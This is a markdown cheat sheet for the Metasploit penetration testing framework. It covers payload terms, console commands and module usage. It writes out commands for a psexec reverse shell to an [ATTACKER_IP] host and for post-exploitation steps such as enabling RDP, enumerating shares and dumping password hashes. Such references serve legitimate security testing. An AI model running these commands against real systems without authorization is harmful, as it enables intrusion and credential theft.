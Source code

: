```yaml
---
title: METASPLOIT
summary: A penetration testing framework.
description: A penetration testing framework.
---
```


[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

## METASPLOIT Terminology

### Non-Staged Payload (Singles or Inline)

**Non-staged payload are sent all at once.**

Example: windows/meterpreter_reverse_tcp.

### Staged Payload

**Staged payloads are sent in two steps:** an initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.

Example: windows/meterpreter/reverse_tcp.

### Modules

* **Exploits:** Exploits.
* **Payloads:** Payloads (exploit + goal).
  * **Singles:** Self-contained payloads that do not need to download an additional component to run.
  * **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
  * **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.
* **Evasion:** Try to bypass antivirus. 
* **Auxiliary:** Supporting modules such as scanners, crawlers and fuzzers.
* **Post:** Post exploitation.

### Exploit Ranking

![METASPLOITExploitRanking.png](../imgs/METASPLOITExploitRanking.png)

Source: https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

## METASPLOIT CONSOLE


 > 
 > **<font color=red>msfdb init</font>**</br>
 > Initialize database.
 > 
 > **<font color=red>msfconsole</font>**</br>
 > Start metasploit console.
 > 
 > **<font color=red>db_status</font>**</br>
 > Check database connection.

 > 
 > **<font color=red>search </font>\[SERVICE_TO_EXPLOIT\]**</br>
 > Search for an exploit to use against the specified service.
 > 
 > **<font color=red>use</font> \[MODULE\]**</br>
 > Select a module.
 > 
 > **<font color=red>use auxiliary</font>**</br>
 > Select an auxiliary module. 

 > 
 > **<font color=red>info</font>**</br>
 > Display information about selected module.
 > 
 > **<font color=red>show options</font>**</br>
 > Show variables (options) of selected module.

 > 
 > **<font color=red>set</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) of selected module.
 > 
 > **<font color=red>setg</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) globaly (for all modules).
 > 
 > **<font color=red>unset</font> \[VARIABLE\] \[VALUE\]**</br>
 > Unset variable.

 > 
 > **<font color=red>exploit</font>**</br>
 > Run the exploit (**<font color=red>-j</font>** to run it in background job). **run** is an alias to exploit.

 > 
 > **<font color=red>sessions -l</font>**</br>
 > List opened sessions.
 > 
 > **<font color=red>sessions</font> 1**</br>
 > Open session 1.
 > 
 > **<font color=red>background</font>**</br>
 > Background session (Ctrl + z).

 > 
 > **<font color=red>connect</font> \[HOST\]**</br>
 > Netcat like connection.
 > 
 > **<font color=red>spool</font>**</br>
 > Write console output into a file as well the screen.

## METASPLOIT MODULES

### Handler Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

### Reverse Shell Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

### Post Exploit Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>multi/manage/shell_to_meterpreter</font>**
 > Upgrade shell to a Meterpreter session.


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**
 > Check exploits for privilege escalation.

### Post Exploit Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/checkvm</font>**</br>
 > Check if the machine a VM.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/manage/enable_rdp</font>**</br>
  
 > Try to enable RDP.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/enum_shares</font>**</br>
 > Enumerate shares.

### Post Exploit Linux


 > 
 > **<font color=red>use</font> <font color=lightblue>linux/gather/hashdump</font>**</br>
 > Dump users hashes.
